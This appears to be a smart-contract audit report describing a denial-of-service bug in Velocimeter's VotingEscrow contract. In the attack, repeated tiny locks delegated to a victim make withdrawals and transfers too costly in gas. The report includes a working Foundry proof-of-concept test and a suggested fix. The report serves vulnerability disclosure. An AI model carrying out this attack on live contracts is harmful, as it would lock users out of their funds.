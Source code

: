 Dizzy Fuzzy Nuthatch

Medium

# User can DoS withdrawals and transfers by delegating 1024 times to an NFT owner

## Summary 

Any user can delegate the balance of the locked NFT amount to anyone by calling `VotingEscrow::delegate`, which is currently saved in an array. Currently the protocol has set a cap of `MAX_DELEGATES=1024`, preventing the address from having an unbounded array. 

However, even with the check, if an address has all 1024 spots filled it would still cost arround 23M to execute a withdrawal or transfer.

## Vulnereability Details

A malicious user can fill up any user's tokenIds address by:

1. Create a lock with a really small amount 
2. Call `VotingEscrow::delegate` with the victims address as parameter
3. Wait 1 second
4. Repeat 


## Proof of Concept


Paste this test inside of `VotingEscrow.t.sol` and in the terminal run with a greater gas limit to avoid OutOfGas Errors:

```bash
forge test --match-test testUserCanDoSOtherUserByDelegating -vv --gas-limit 200000000000
```

```solidity
    function testUserCanDoSOtherUserByDelegating() public {
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, 7 days);

        address attacker = makeAddr("attacker");

        deal(address(flowDaiPair), attacker, 1e18);

        vm.prank(attacker);
        flowDaiPair.approve(address(escrow), type(uint256).max);

        uint MAXTIME = 52 * 7 * 86400;

        for (uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);

            vm.startPrank(attacker);

            escrow.create_lock(0.000005e18, MAXTIME);
            escrow.delegate(address(this));
            vm.stopPrank();
        }

        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 7 days);
        uint initialGas = gasleft();
        escrow.withdraw(tokenId);
        uint gasUsed = initialGas - gasleft();

        //@review -> The gas used for withdraw is over 20_000_000
        assertGt(gasUsed, 20_000_000);
    }
```

## Impact

Complete DoS of withdrawals and transfers.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/VotingEscrow.sol#L315-L342
https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/VotingEscrow.sol#L955-L979
https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/VotingEscrow.sol#L545
https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/VotingEscrow.sol#L1362-L1411

## Tool Used

Manual review

## Recommendation

Consider lowering the `MAX_DELEGATES` to something like 128/256, which will make sure when withdrawing/transfering not so much gas will be consumed.